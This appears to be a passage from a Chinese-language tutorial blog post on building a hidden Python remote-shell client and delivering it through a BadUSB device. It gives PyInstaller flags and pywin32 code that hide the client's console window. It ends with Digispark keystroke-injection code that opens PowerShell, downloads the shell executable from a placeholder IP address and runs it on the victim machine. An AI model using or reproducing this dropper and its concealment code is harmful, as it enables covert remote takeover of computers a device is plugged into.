 5. -w 选项可以打桌面程序，去掉命令行黑框

6. -i 可以设置图标路径，将图标放在根目录：

`pyinstaller -F -w 文件名.py`创建的就是单个不带windows黑框的应用程序

但是我实际测试下来隐藏是隐藏了，我服务端也收到了客户端的连接，但每次执行命令都会报错，执行任何命令都会报错...界面也是隐藏的不好测试到底是哪儿出了问题于是只有换方式。



下面一段代码也可以隐藏python的gui界面，通过调用pywin32库隐藏界面实现后台执行，只有启动时会闪一下

```
import win32api, win32gui   
ct = win32api.GetConsoleTitle()   
hd = win32gui.FindWindow(0,ct)   
win32gui.ShowWindow(hd,0) 
```

打包的时候又会出现问题，打包出来的文件运行会报错：`importError: DLL load failed while importing win32api`。网上搜了一下貌似带有`import pywin32`库和`pyinstaller`的也有点冲突，最终打包代码

`pyinstaller 文件名.py --onefile --hidden-import 缺少的库`我缺win32api就填win32api

打包出来就能使用了



折腾了几天，至少弄出来个可行的。。badusb代码

```
#include <DigiKeyboard.h>
void setup() {
DigiKeyboard.delay(2000);

//open cmd and download shell
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(100);
DigiKeyboard.print("cmd");
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
DigiKeyboard.print("powershell");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(100);
DigiKeyboard.print("$client = new-object System.Net.WebClient");
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.print("$client.DownloadFile('http://xxx.xxx.xxx.xxx/py_shellclient_no_GUI.exe', 'D:/py_shellclient.exe')");
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);

//wait for complete and exit
DigiKeyboard.delay(60000);
DigiKeyboard.delay(60000);
DigiKeyboard.print("exit");
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(100);
DigiKeyboard.print("exit");
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(100);

//open shell.exe
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(100);
DigiKeyboard.print("d:/py_shellclient.exe");
```
